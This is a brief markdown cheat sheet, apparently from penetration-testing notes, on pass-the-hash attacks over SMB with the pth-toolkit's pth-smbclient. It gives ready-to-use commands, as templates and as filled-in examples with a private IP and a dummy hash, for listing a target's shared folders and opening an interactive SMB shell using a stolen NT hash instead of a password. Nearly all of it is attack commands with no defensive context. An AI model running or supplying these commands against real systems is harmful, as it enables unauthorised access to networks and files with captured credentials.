 # Pass the Hash

## SMB Pass the Hash

### Tool:

[pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

#### Listing shared folders

`sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3  -L <target_ip> \\\\<target_ip>\\ <hash>`

`sudo pth-smbclient --user=user --pw-nt-hash -m smb3  -L 192.168.0.24 \\\\192.168.0.24\\ ljahdçjkhadkahdkjahsdlkjahsdlkhadklad`

#### Interactive smb shell

`sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3  \\\\<target_ip>\\shared_folder <hash>`

`sudo pth-smbclient --user=user --pw-nt-hash -m smb3 \\\\192.168.0.24\\folder ljahdçjkhadkahdkjahsdlkjahsdlkhadklad`